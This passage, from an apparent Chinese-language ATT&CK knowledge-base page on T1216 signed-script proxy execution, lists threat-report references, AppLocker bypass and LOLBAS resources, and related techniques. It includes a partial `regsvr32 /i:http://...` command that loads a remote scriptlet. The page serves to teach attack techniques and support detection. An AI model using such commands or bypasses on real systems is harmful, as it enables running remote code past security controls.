- [Kaspersky - BlueNoroff Introduces New Methods Bypassing MoTW](https://securelist.com/bluenoroff-methods-bypass-motw/108383/)
- [Trellix - Suspected DarkHotel APT Activity Update](https://www.trellix.com/en-ca/about/newsroom/stories/research/suspected-darkhotel-apt-activity-update/)
- [Enigma0x3 - WSH Injection: A Case Study](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)
- [Nick Carr - APT32 PubPrn Usage](https://x.com/ItsReallyNick/status/944321013084573697)
- [Nick Landers - Signed Alternative to PowerShell](https://x.com/monoxgas/status/895045566090010624)

### 🔧 工具与资源（动手试试）

- [LOLBAS Project](https://lolbas-project.github.io/) - Windows 系统"生活在陆地"的二进制文件与脚本列表（含 `pubprn.vbs` 与 `SyncAppvPublishingServer.vbs`）
- [Ultimate AppLocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList) - AppLocker 绕过技术参考列表
- [Atomic Red Team - T1216 Tests](https://atomicredteam.io/) - 可执行的检测测试用例
- [Strontic - SyncAppvPublishingServer.exe 解析](https://strontic.github.io/xcyclopedia/library/SyncAppvPublishingServer.exe-3C291419F60CDF9C2E4E19AD89944FA3.html)

## 相关技术

- **[T1218 系统二进制代理执行](./T1218-System-Binary-Proxy-Execution.md)**：与 T1216 是"姊妹技术"——T1218 滥用微软签名的可执行文件（如 `rundll32.exe`、`mshta.exe`），T1216 滥用微软签名的脚本（如 `pubprn.vbs`、`SyncAppvPublishingServer.vbs`），两者共同构成 LOLBins 滥用的核心
- **[T1202 间接命令执行](./T1202-Indirect-Command-Execution.md)**：T1216 是 T1202 的具体实现之一——通过签名脚本"间接"执行命令，避免直接调用 `powershell.exe`/`cmd.exe`
- **[T1059.005 Visual Basic](../04-Execution/T1059-Command-and-Scripting-Interpreter.md)**：T1216 的子技术均基于 VBScript（Visual Basic Script），与 T1059.005 共享底层脚本执行机制
- **[T1059.001 PowerShell](../04-Execution/T1059-Command-and-Scripting-Interpreter.md)**：T1216.002 SyncAppvPublishingServer 滥用的核心目标就是绕过 PowerShell 执行限制，与 T1059.001 形成攻防对抗关系
- **[T1218.010 Regsvr32](./T1218/T1218.010-Regsvr32.md)**：T1218.010 通过 `regsvr32.exe /s /u /i:http://...` 加载远程 Scriptlet，与 T1216.001 PubPrn 的 `script:` moniker 机制相似，但宿主进程不同
- **[T1027 混淆文件或信息](./T1027-Obfuscated-Files-or-Information.md)**：攻击者常将 T1216 代理执行的恶意载荷（Scriptlet、PowerShell 命令）进行混淆，规避检测
- **[T1562 削弱防御](../08-Defense-Impairment/T1685-Disable-or-Modify-Tools.md)**：在实施 T1216 之前，攻击者常先削弱 AMSI 或 EDR 防御，提高签名脚本代理执行的成功率
